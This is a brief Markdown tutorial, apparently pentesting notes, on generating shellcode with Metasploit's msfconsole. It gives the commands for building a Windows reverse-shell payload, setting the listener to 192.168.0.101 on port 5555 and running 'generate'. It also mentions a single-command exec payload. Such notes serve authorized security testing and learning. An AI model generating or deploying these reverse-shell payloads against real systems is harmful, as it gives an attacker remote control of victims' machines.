 # Generate shellcode

An easy way to generate shellcode is by using msfvenom or msconsole. I mostly see people recommending msfvenom online, but I think msfconsole can be a bit easier to work with. 

## Msfconsole

In msfconsole you have the keyword **generate** that help us generate shellcode. So first we have to select a payload.

```
use payload/windows/shell_reverse_tcp
```

Now we set the variables as usual

```
set LPORT 5555
set LHOST 192.168.0.101
```

now we genereate the shellcode using the command **generate**.

To see the options use **generate -h**

## Single commands in windows

If you don't have space and only want to execute a single command you can use

```
use payload/windows/exec
```



